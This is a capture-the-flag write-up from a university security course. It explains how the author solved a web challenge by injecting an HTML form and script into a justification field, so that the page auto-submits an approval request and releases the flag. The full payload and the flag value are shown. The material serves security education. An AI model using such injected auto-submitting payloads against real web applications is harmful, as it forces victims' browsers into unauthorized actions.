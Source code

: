 # Optional CTF - Echo

- We start this challenge by analysing the two pages (the one we can input the justifification and the other page where we wait for the accpetance decision).

- After some time, we got to the conclusion that we need to make code injection in the input form (on the justfication field).

- So , in order to get the flag, our justification would need to be accepted. After that, we would need to create an input that when clicked would redirect the page to the request accpetance page.

- So, we use the below code, and injected in the justification field.

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/71b93db6ec908d8868bed4aba06b5977fc8aaaa8/approve" role="form">     
    <div class="submit">         
        <input type="submit" id="giveflag" value="Give the flag">    
    </div> 
</form>  

<script type="text/javascript"> 	
    document.querySelector('#giveflag').click(); 
</script>
``` 
<br>

![input justification - code injection](CTFs/Opcionals/Img/3-Apply_For_Flag_2/1.input.png)
<br>

- When clicking in the `Submit` button, we were redirected to the jutification for the application page. After some time, we reloaded the page and there was the flag.

![justification page - flag](CTFs/Opcionals/Img/3-Apply_For_Flag_2/3.flag.png)
<br>

> :warning: **If the error below appears instead of the justification page, you may need to disable the javascript on the definitions of your browser!** 
![browser error - disable javascript](CTFs/Opcionals/Img/3-Apply_For_Flag_2/2.forbidden_warning.png)


### Flag

`flag{67c0cc6c236606a94a1ac938a41bd9fc}`

